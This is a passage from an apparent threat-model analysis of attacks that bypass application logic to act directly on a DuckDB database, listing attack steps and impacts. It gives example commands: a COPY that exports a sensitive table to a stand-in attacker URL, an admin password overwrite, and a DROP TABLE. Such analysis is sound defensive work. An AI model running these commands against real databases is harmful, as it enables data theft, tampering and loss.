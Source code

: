 #### 4.4. Attack Steps

The typical steps an attacker might take to execute malicious operations directly on DuckDB, bypassing application logic, are as follows:

1.  **Reconnaissance and Vulnerability Scanning:** The attacker starts by gathering information about the application and its infrastructure. This includes identifying technologies used (DuckDB), network topology, and potential entry points. They may use vulnerability scanners to identify potential weaknesses like SQL injection points or exposed services.
2.  **Exploitation of Vulnerability:** Based on the reconnaissance, the attacker exploits a identified vulnerability. This could be:
    *   **SQL Injection:** Crafting malicious SQL queries to inject through application input fields or parameters.
    *   **Exploiting Application Vulnerability for Server Access:** Utilizing vulnerabilities like RCE to gain shell access to the server hosting DuckDB.
    *   **Direct Connection (if exposed):** Connecting directly to DuckDB if it's exposed over the network without proper authentication.
    *   **Credential Compromise:** Using compromised application database credentials.
3.  **Bypassing Application Authentication/Authorization:** The attacker leverages the exploited vulnerability to bypass application-level authentication and authorization mechanisms. This is the core of this attack path – circumventing the intended security controls.
4.  **Direct Interaction with DuckDB:** Once the application logic is bypassed, the attacker can directly interact with the DuckDB database. This could involve:
    *   **Using DuckDB Client Tools:** If direct network access or server access is gained, the attacker can use DuckDB command-line interface or client libraries to connect and execute queries.
    *   **Injected SQL Queries:** In the case of SQL injection, the attacker continues to inject malicious SQL queries through the application's vulnerable input points.
5.  **Execution of Malicious Operations:** The attacker now executes malicious operations directly on DuckDB. These operations could include:
    *   **Data Exfiltration:**  Using `COPY` command to export sensitive data to an attacker-controlled server. Example: `COPY sensitive_table TO 'http://attacker.com/data.csv' (FORMAT 'CSV', HEADER);`
    *   **Data Manipulation:**  Modifying or corrupting data in the database. Example: `UPDATE users SET password = 'hacked' WHERE username = 'admin';`
    *   **Data Deletion:**  Deleting critical data or database objects. Example: `DROP TABLE important_data;`
    *   **Denial of Service (DoS):**  Executing resource-intensive queries to overload the database and disrupt application availability.
    *   **Privilege Escalation (Potentially):** Attempting to escalate database privileges if possible within DuckDB's security model or by exploiting DuckDB vulnerabilities.
    *   **Code Execution (Through DuckDB Vulnerabilities - Less Likely):** In highly unlikely scenarios, exploiting vulnerabilities in DuckDB itself or loaded extensions to achieve code execution on the server.
6.  **Covering Tracks (Optional):**  The attacker may attempt to delete logs, modify audit trails, or take other steps to conceal their malicious activities.

#### 4.5. Impact

The impact of successfully executing malicious operations directly on DuckDB, bypassing application logic, can be severe and range from high to critical:

*   **Data Breach (Confidentiality Impact - High to Critical):**  Sensitive data stored in DuckDB can be exfiltrated, leading to a breach of confidentiality and potential regulatory violations (e.g., GDPR, CCPA).
*   **Data Manipulation (Integrity Impact - High to Critical):**  Critical data can be modified or corrupted, leading to incorrect application behavior, business disruptions, and loss of data integrity.
*   **Data Loss (Availability Impact - High to Critical):**  Important data or database objects can be deleted, leading to data loss and application unavailability.
*   **Denial of Service (Availability Impact - Medium to High):**  Resource-intensive malicious queries can cause performance degradation or complete application downtime.
*   **Code Execution (Confidentiality, Integrity, Availability Impact - Critical):**  In the most severe scenario (though less likely with DuckDB directly), code execution on the server could lead to complete system compromise, allowing the attacker to take full control of the application and its infrastructure.